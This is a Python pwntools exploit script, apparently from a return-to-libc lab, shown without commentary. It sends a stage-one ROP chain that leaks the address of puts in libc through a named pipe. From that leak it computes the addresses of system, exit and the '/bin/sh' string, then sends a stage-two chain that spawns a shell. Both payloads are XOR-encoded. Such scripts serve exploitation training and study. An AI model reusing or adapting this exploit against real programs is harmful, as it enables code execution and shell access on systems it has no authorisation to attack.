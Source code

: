 ```python

    # Change the working directory to tmp and create a badfile
    # This is to avoid problems with the shared directory in vagrant
    os.chdir("/tmp")

    # Create a named pipe to interact reliably with the binary
    try:
        os.unlink("badfile")
    except:
        pass
    os.mkfifo("badfile")

    # Create the rop chain
    rop  = p32(puts_plt)
    rop += p32(main_addr)
    rop += p32(puts_got)

    # Create and encode the payload
    payload = "A"*24 + rop
    payload = payload.ljust(52, "\x90")
    payload = xor(payload, 0xbe)

    # Start the process
    p = process(retlib_path)

    # Open a handle to the input named pipe
    comm = open("badfile", 'w', 0)

    # Launch the first stage of the attack
    comm.write(payload)
    log.info("Stage 1 sent!")

    # Get leak of puts in libc
    leak = p.recv(4)
    puts_libc = u32(leak)
    log.info("puts@libc: 0x%x" % puts_libc)
    p.clean()

    # Calculate the required libc functions
    libc_base = puts_libc - offset_puts
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base + offset_exit

    log.info("libc base: 0x%x" % libc_base)
    log.info("system@libc: 0x%x" % system_addr)
    log.info("binsh@libc: 0x%x" % binsh_addr)
    log.info("exit@libc: 0x%x" % exit_addr)

    # Create the rop chain for stage 2
    rop2  = p32(system_addr)
    rop2 += p32(exit_addr)
    rop2 += p32(binsh_addr)

    # Create and encode the payload for stage 2
    payload2 = "A"*24 + rop2
    payload2 = payload2.ljust(52, "\x90")
    payload2 = xor(payload2, 0xbe)

    # Launch the second stage of the attack
    comm.write(payload2)
    log.info("Stage 2 sent!")

```